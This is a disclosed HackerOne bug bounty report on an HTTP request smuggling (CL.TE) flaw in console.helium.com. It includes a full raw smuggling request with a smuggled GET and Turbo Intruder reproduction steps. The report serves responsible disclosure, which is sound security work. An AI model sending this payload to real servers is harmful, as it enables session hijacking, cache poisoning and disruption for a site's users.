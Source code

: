 # HTTP request Smuggling

## Report Details
- **Report ID**: 867952
- **URL**: https://hackerone.com/reports/867952
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-07T10:07:59.993Z
- **Disclosed**: 2020-07-02T05:43:30.090Z

## Reporter
- **Username**: dracomalfoy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: helium

## Vulnerability Information
When malformed or abnormal HTTP requests are interpreted by one or more entities in the data flow between the user and the web server, such as a proxy or firewall, they can be interpreted inconsistently, allowing the attacker to "smuggle" a request to one device without the other device being aware of it. 

console.helium.com s vulnerable to CL TE ( Front end server uses Content-Length , Back-end Server uses Transfer-encoding ) HTTP request smuggling attack.

##Products affected:

Helium console Website. :  console.helium.com

##Steps To Reproduce:

1. Run the burp suite turbo intruder on the following request

```

POST /api/sessions HTTP/1.1
Host: console.helium.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://console.helium.com/login
Content-Type: application/json
Content-Length: 109
DNT: 1
Connection: close
Cookie: __cfduid=dc0212a0b1dcc0fe5853ef4e6b6d669ff1588840067; amplitude_id_2b23c37c10c54590bf3f2ba705df0be6helium.com=eyJkZXZpY2VJZCI6ImJmZDVjNzFmLWVhMWUtNDlmZi1hZGYyLTNlYWY3OTBjNmU3YlIiLCJ1c2VySWQiOm51bGwsIm9wdE91dCI6ZmFsc2UsInNlc3Npb25JZCI6MTU4ODg0MDA3NzA2MiwibGFzdEV2ZW50VGltZSI6MTU4ODg0MTg5MDk3NiwiZXZlbnRJZCI6NywiaWRlbnRpZnlJZCI6Miwic2VxdWVuY2VOdW1iZXIiOjl9
Transfer-Encoding: chunked

39
{"session":{"email":"fdsfsd@fgd.jk","password":"sdfsdf"}}
00

GET / HTTP/1.1
Host: www.helium.com
foo: x


```

2. Script for tubro Intruder is attached. Word list can be any list containing any characters.

3. Observe 200 Ok response for the /api/sessions post request which is supposed to give  401 Unauthorized   {"errors":{"error":["The email address or password you entered is not valid"]}} Please refer the attached screenshot ( Smuggle Request1.png ) which contain the expected response. 

4. This successfully confirms vulnerability.Please refer attached screenshot ( Final Response.png ). A recoding is attached as well.

Any suggestions or improvement in reports are welcome

## Impact

It is possible to smuggle the request and disrupt the user experience. Session Hijacking, Privilege Escalation and cache poisoning can be the impact of this vulnerability as well. Self-Xss can be escalated to XSS. It can be chained with other vulnerabilities to raise their severity.
As unauthenticated testing is performed the exact impact of the vulnerability cannot be predicted.

For more information about the vulnerability please refer :
https://cwe.mitre.org/data/definitions/444.html ;
https://capec.mitre.org/data/definitions/33.html

## Attachments
- intruder.txt
- Smuggle_Request1.png
- Final_Response..png
- helium_http_smuggling_.mp4
